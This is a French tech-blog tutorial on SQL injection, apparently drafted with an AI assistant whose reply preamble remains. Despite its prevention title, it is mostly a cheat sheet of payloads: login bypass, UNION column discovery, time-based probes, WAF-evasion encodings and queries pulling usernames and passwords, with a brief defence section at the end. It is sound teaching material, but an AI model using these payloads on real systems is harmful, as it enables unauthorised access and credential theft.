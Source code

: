 ```yaml
---
title: "Les injections SQL en 2025 - Guide complet de prévention"
slug: sqli-2025-guide
authors:
  - name: DoctorCode
    title: Expert en Sécurité Web
    url: https://votresite.com
    
tags: [sécurité, webdev, bases de données, owasp]
date: 2025-05-13
description: "Tout ce que vous devez savoir sur les attaques par injection SQL et comment protéger vos applications en 2025"

---
```



Parfait ! Voici une version **blog adaptée** de ton article sur les failles SQLi, avec un **ton fluide, pédagogique et professionnel**, idéale pour publication sur un blog tech ou cybersécurité. Je conserve le style Markdown pour faciliter la mise en ligne sur des plateformes comme Medium, Dev.to ou un blog statique (Jekyll, Hugo, etc.).

---

````markdown
# 💣 Comprendre les Failles SQLi : Le Guide Complet pour Débutants

La sécurité web est un pilier essentiel du développement moderne. Pourtant, une vulnérabilité vieille comme le web continue de faire des ravages : **l’injection SQL (SQLi)**. 

Dans cet article, je vous propose une plongée claire et structurée dans le monde des failles SQLi : de la découverte de colonnes avec `UNION`, aux techniques de contournement de WAF, en passant par l'exfiltration de données. Un véritable couteau suisse pour mieux comprendre cette menace — et apprendre à s’en protéger.

---

## 🧠 C’est quoi une injection SQL ?

L’injection SQL consiste à insérer du code SQL malveillant dans une requête prévue pour interagir avec une base de données. Elle survient généralement via des champs non filtrés comme un formulaire de connexion ou une URL.

**Exemple simple :**
```sql
Input : ' OR 1=1 --
Requête : SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = ''
````

Résultat ? Tous les utilisateurs sont retournés, contournant toute authentification.

---

## 📌 1. Types d’injection SQL

Voici les principaux types d'injection à connaître :

| Type                   | Description                                               | Exemple                             |
| ---------------------- | --------------------------------------------------------- | ----------------------------------- |
| **Inband (classique)** | L'attaquant voit directement le résultat.                 | `' OR '1'='1`                       |
| **Error-based**        | Exploite les messages d'erreur SQL.                       | `' AND 1=CONVERT(int, @@version)--` |
| **Blind (booléen)**    | Injection sans message visible, mais résultat observable. | `' AND 1=1 --`                      |
| **Time-based**         | Injection confirmée via un délai volontaire.              | `' OR SLEEP(5)--`                   |
| **Out-of-band**        | Utilise un canal externe (rare).                          | Exfiltration DNS                    |

---

## 🔍 2. Tester une injection basique

Voici des chaînes simples pour tester une potentielle vulnérabilité :

* `' OR 1=1--`
* `" OR ""="`
* `admin'--`
* `1' ORDER BY 1--`

Si l'application renvoie une erreur ou affiche un comportement étrange : bingo.

---

## 🧮 3. Combien de colonnes ? (avec UNION)

Le test via `ORDER BY` permet d’estimer le nombre de colonnes :

```sql
' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3-- (jusqu'à erreur)
```

Ensuite, on teste l’injection `UNION SELECT` :

```sql
' UNION SELECT 1--  
' UNION SELECT 1,2--  
' UNION SELECT 1,2,3--  
```

Le bon nombre de colonnes = pas d'erreur SQL.

---

## 🔐 4. Commentaires SQL utiles

Selon le moteur SQL, on peut commenter pour neutraliser le reste de la requête :

* `--` ou `#` (MySQL, SQLite)
* `/* */` (toutes bases)
* `--+` pour certaines protections

---

## 🗃️ 5. Requêtes selon le SGBD

| Base de données | Exemples utiles |
|------------------|------------------|
| **MySQL**        | - `SELECT @@version`  <br />- `SELECT * FROM INFORMATION_SCHEMA.TABLES` |
| **PostgreSQL**   | - `SELECT version()` <br />- `SELECT * FROM pg_catalog.pg_tables` |
| **Oracle**       | - `SELECT * FROM v$version` <br />- `SELECT * FROM all_tables` |
| **SQL Server**   | - `SELECT @@version` <br />- `WAITFOR DELAY '0:0:5'` |


---

## 🛌 6. Time-based SQLi

Quand aucune erreur ou retour n’est visible, on utilise des délais pour observer une réaction.

* **MySQL** : `' OR IF(1=1, SLEEP(5), 0)--`
* **PostgreSQL** : `' OR 1=1; SELECT pg_sleep(5)--`
* **MSSQL** : `' WAITFOR DELAY '0:0:5'--`

---

## 🧬 7. Contourner les WAFs (Web Application Firewalls)

Pour éviter les blocages automatiques, voici quelques techniques :

| Technique       | Exemple                           |
| --------------- | --------------------------------- |
| Encodage URL    | `%27 OR 1=1--`                    |
| Double encodage | `%2527` pour `'`                  |
| Casse tordue    | `SeLeCt`, `oR`, `UnIoN`           |
| Commentaires    | `UN/**/ION/**/SELECT`             |
| Concaténation   | `CONCAT(username, ':', password)` |

---

## 🧪 8. Exfiltrer les données

Lister les tables :

```sql
' UNION SELECT null, table_name FROM information_schema.tables--
```

Lister les colonnes d'une table :

```sql
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users'--
```

Récupérer les données :

```sql
' UNION SELECT username, password FROM users--
```

---

## 🛡️ 9. Comment se protéger ?

* ✅ Utiliser des **requêtes préparées** (ex : PDO, ORM).
* ✅ Filtrer et valider **chaque entrée utilisateur**.
* ✅ Ne jamais **concaténer des chaînes SQL**.
* ✅ Garder les logiciels **à jour**.
* ✅ Utiliser un **WAF**, mais pas comme unique barrière.

---

## 🎯 Conclusion

Les injections SQL sont simples à exploiter, mais aussi simples à éviter si les bonnes pratiques sont respectées. Que vous soyez développeur, pentester, ou simplement curieux, maîtriser le SQLi est une étape essentielle pour comprendre les rouages de la cybersécurité web.

---

> ⚠️ **Disclaimer** : Ce guide est fourni à des fins éducatives uniquement. Tester sans autorisation est **illégal** et contraire à l’éthique.

